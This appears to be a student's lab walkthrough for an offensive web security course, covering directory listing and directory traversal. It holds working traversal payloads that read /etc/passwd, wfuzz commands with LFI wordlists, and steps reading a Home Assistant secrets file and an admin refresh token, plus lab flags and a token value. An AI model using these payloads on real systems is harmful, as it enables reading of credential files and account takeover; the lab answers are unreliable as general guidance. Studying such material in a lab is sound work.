


# **9.4 Directory Listing**

### Lab
**Utilize the directory listing to retrieve the flag file from the System User Jerry's Home directory.**

Solution:

Payload: http://192.168.145.101/index.php?path=../../../../../../home/Jerry
Flag: OS{directory_listingFlagOne}

  

# **9.5 Directory Traversal Sandbox**

### 9.5.1. Directory Traversal - Exploitation
Absolute Path: `192.168.145.101/absolutePathing.php?path=/var/www/html/data.txt`    

Relative Path Traversal: `http://192.168.145.101/relativePathingVerbose.php?path=/../../../../../../../etc/passwd`


### 9.5.2. Wordlist/Payload Lists
```
sudo apt install seclists
sudo apt install payloadsallthethings
ls -lh /usr/share/seclists
```

### 9.5.3. Fuzzing the Path Parameter
```
wfuzz -c -z file,/usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt http://192.168.145.101/relativePathingVerbose.php?path=../../../../../../../../../../../../../../FUZZ
```

-c: display color in terminal output 
-z: payload parameter

```
wfuzz -c -z file,/usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt --hc 404 --hh 81,125 http://192.168.145.101/relativePathing.php?path=../../../../../../../../../../../../FUZZ
```
--hh : suppress the erroneous response sizes
--hc 404: filters the web resources unknown by the web server

### **Lab-1**

**Use a separate wordlist from /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt, discover the path to the pureftpd.log log file, and exfiltrate its contents. You can use either http://dirTravSandbox/relativePathing.php or http://dirTravSandbox/relativePathingVerbose.php to achieve this goal.**

Solution:

```
FILTERED=$(mktemp)
grep -i 'pureftpd\.log' /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt > "$FILTERED"
```


```
wfuzz -c -z file,"$FILTERED" 'http://192.168.145.101/relativePathingVerbose.php?path=../../../../../../../../../../../../../../FUZZ'
```

`rm -f "$FILTERED"`

Flag: OS{directory_traversalFlagTwo}

    

  


# **9.6 Case Study: Home Assistant**

### **Labs**
**Locate the secrets.yaml file using this Directory Traversal and retrieve the flag inside.**

Solution:

Check  history in Burp Suite.
  

Fuzz the /fontawesome/ URI
```
wfuzz -c -z file,/usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt --hc 404,500 http://192.168.145.105:8123/fontawesome/../../../../../../../../../../../../FUZZ
```
  

Validate in Burp Suite.     
  

Now lcate the secrets.yaml file and retrieve the flag inside.
Flag: OS{directory_traversalFlagThree}

  


### **Lab-2**
**There are some interesting admin token values within the /.storage/auth file. These values are vital when concerning publicly available exploits.
Identify the refresh token value.**

Solution:
84c4889959995ec2500da8936b7130e8dcc69a577da831b1af7beb8ef0595a8709e554cef63892615da72b5ec357c95d3d24f934347cfd35139cb0a458088958     

Payload: `/fontawesome/data/../../../.storage/auth`

  
